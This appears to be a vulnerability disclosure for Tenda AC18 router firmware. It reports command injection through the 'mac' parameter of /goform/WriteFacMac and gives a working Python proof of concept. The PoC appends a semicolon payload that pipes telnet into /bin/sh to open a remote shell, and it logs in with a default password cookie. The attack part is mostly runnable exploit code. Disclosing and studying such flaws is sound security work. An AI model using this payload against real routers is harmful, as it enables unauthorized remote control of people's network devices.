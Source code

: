 Vendor:Tenda
product:AC18
version:V15.03.05.19 and  V15.03.05.05
type:Arbitrary Remote Command Execution
author:WuShaoZhen
institution:Ns1A@Xiangtan University

## Vulnerability description:
I found an Arbitrary Command Execution vulnerability in the router's web server-- **/bin/httpd** of squashfs filesystem. While processing the **mac** parameters for a post request(when an attacker accesses ip/goform/WriteFacMac), the value is directly passed to doSystem, which causes a RCE. The details are shown below: 

![rce1.1.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.1.png)


![rce1.2.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.2.png)


Close the previous command with a semicolon and then cause an Arbitrary Remote Command Execution
## Poc:
```python2
import requests
from pwn import*

ip = "192.168.211.128" #You Tenda AC18 Router IP
url = "http://" + ip + "/goform/WriteFacMac"
print(url)


#payload = ";cmd"
#payload = ";telnet ip port1 | /bin/sh | telnet ip port2"
payload = ";telnet 127.0.0.1:1111 | /bin/sh | telnet 127.0.0.1:2222"


cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")
```
Use the above POC to play shell through telnetYou can get a very stable shell
![rce1.3.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.3.png)
![rce1.4.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.3.png)
